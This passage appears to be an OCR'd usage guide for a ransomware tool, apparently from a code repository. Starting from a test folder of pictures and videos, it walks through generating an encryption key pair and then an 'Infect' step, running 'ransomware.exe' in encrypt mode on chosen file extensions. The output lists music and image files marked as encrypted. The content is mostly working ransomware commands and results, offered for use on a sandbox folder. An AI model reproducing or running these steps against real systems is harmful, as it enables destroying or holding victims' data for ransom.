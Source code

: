 	./Pictures:
	ara-3601194_640.jpg         polynesia-3021072_640.jpg
	elephant-2870777_640.jpg    sea-2361247_640.jpg
	fallow-deer-984573_640.png  sparkler-677774_640.jpg
	iceland-1979445_640.png     summerfield-336672_640.jpg
	man-1246233_640.jpg         train-1728537_640.jpg

	./Videos:
	'Beach - 42894.mp4'  'Cave - 45340.mp4'  'Nature - 31377.mp4'
	```
1. **Move test directory with the command below.**

	```bash
	cd test
	```

1. **Keygen with the command below.**

	* public key require encryption, private key require decryption.

	* if your os is not windows, extension isn't exe.

	```bash
	ransomware.exe -kind keygen
	```
	
	Execution result:
	```
	public.key and private.key generated.
	```

1. **Infect with the command below.**

	```bash
	ransomware.exe -kind encrypt -area ./area -keypath public.key .jpg .txt .mp3
	```
	
	Execution result:
	```
	walking ... C:\Projects\workspace\ransomware\test\area
	[PASSED - EXT]  C:\Projects\workspace\ransomware\test\area\Desktop\bert.pdf
	[PASSED - EXT]  C:\Projects\workspace\ransomware\test\area\Desktop\cnn.pdf
	[PASSED - EXT]  C:\Projects\workspace\ransomware\test\area\Desktop\cs231n_lecture10.pdf
	[PASSED - EXT]  C:\Projects\workspace\ransomware\test\area\Desktop\rnn-lstm.pdf
	[PASSED - EXT]  C:\Projects\workspace\ransomware\test\area\Downloads\Everything-1.4.1.986.x86.zip
	[ENCRYPTED]  C:\Projects\workspace\ransomware\test\area\Music\A Call Is Upon Us - The 126ers.mp3
	[ENCRYPTED]  C:\Projects\workspace\ransomware\test\area\Music\Doctor Momentum - Slynk.mp3
	[ENCRYPTED]  C:\Projects\workspace\ransomware\test\area\Music\Earth Bound - Slynk.mp3
	[ENCRYPTED]  C:\Projects\workspace\ransomware\test\area\Music\Golden Empire - The 126ers.mp3
	[ENCRYPTED]  C:\Projects\workspace\ransomware\test\area\Music\Heads Up - The 126ers.mp3
	[ENCRYPTED]  C:\Projects\workspace\ransomware\test\area\Music\No.8 Requiem - Esther Abrami.mp3
	[ENCRYPTED]  C:\Projects\workspace\ransomware\test\area\Music\Rage - The 126ers.mp3
	[ENCRYPTED]  C:\Projects\workspace\ransomware\test\area\Music\See You On The Otherside - The 126ers.mp3
	[ENCRYPTED]  C:\Projects\workspace\ransomware\test\area\Music\Stars Align - The 126ers.mp3
	[ENCRYPTED]  C:\Projects\workspace\ransomware\test\area\Music\The Jam - Slynk & Mr Stabalina.mp3
	[ENCRYPTED]  C:\Projects\workspace\ransomware\test\area\Music\Warships - The 126ers.mp3
	[ENCRYPTED]  C:\Projects\workspace\ransomware\test\area\Music\X Ray Vision - Slynk.mp3
	[ENCRYPTED]  C:\Projects\workspace\ransomware\test\area\Pictures\ara-3601194_640.jpg
	[ENCRYPTED]  C:\Projects\workspace\ransomware\test\area\Pictures\elephant-2870777_640.jpg
	[PASSED - EXT]  C:\Projects\workspace\ransomware\test\area\Pictures\fallow-deer-984573_640.png
	[PASSED - EXT]  C:\Projects\workspace\ransomware\test\area\Pictures\iceland-1979445_640.png
	[ENCRYPTED]  C:\Projects\workspace\ransomware\test\area\Pictures\man-1246233_640.jpg
	[ENCRYPTED]  C:\Projects\workspace\ransomware\test\area\Pictures\polynesia-3021072_640.jpg
	[ENCRYPTED]  C:\Projects\workspace\ransomware\test\area\Pictures\sea-2361247_640.jpg
	[ENCRYPTED]  C:\Projects\workspace\ransomware\test\area\Pictures\sparkler-677774_640.jpg
	[ENCRYPTED]  C:\Projects\workspace\ransomware\test\area\Pictures\summerfield-336672_640.jpg
	[ENCRYPTED]  C:\Projects\workspace\ransomware\test\area\Pictures\train-1728537_640.jpg